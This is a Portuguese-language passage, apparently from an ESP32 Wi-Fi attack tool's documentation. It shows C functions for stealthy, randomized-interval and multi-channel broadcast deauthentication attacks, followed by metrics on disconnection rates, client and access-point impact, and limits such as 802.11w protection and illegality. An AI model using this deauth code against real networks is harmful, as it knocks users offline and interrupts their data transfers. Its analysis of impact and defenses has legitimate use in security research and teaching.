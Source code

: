 ### 2. Stealth Deauth
Ataque com intervalos randomizados:
```c
void stealth_deauth_attack(void) {
    uint32_t random_delay = esp_random() % 1000 + 500;  // 500-1500ms
    vTaskDelay(pdMS_TO_TICKS(random_delay));
    send_deauth_frame(target_mac);
}
```

### 3. Multi-Channel Deauth
Ataque em múltiplos canais:
```c
void multi_channel_deauth(void) {
    uint8_t channels[] = {1, 6, 11};  // Canais principais
    for (int i = 0; i < 3; i++) {
        esp_wifi_set_channel(channels[i], WIFI_SECOND_CHAN_NONE);
        send_deauth_frame(broadcast_mac);
        vTaskDelay(pdMS_TO_TICKS(100));
    }
}
```

## Análise de Impacto

### 1. Métricas de Eficácia
- **Taxa de Desconexão**: 90-98% dos clientes em 10-30 segundos
- **Tempo de Recuperação**: 5-45 segundos dependendo do cliente
- **Overhead de Rede**: +200-500% no tráfego de gerenciamento
- **Detecção**: Facilmente detectável por IDS/IPS modernos

### 2. Impacto nos Clientes
- **Interrupção imediata** de conexões ativas
- **Perda de dados** em transferências ativas
- **Reconexão automática** na maioria dos dispositivos
- **Degradação de QoS** durante reconexão

### 3. Impacto no AP
- **Overhead de processamento** para frames maliciosos
- **Saturação de logs** se logging detalhado estiver ativo
- **Possível instabilidade** em APs com firmware fraco

## Limitações e Considerações

### 1. Limitações Técnicas
- **PMF**: Redes com 802.11w são imunes
- **Rate Limiting**: APs modernos podem limitar frames
- **Detection**: Facilmente detectável por monitoramento
- **Legal**: Ataque ilegal contra redes não autorizadas

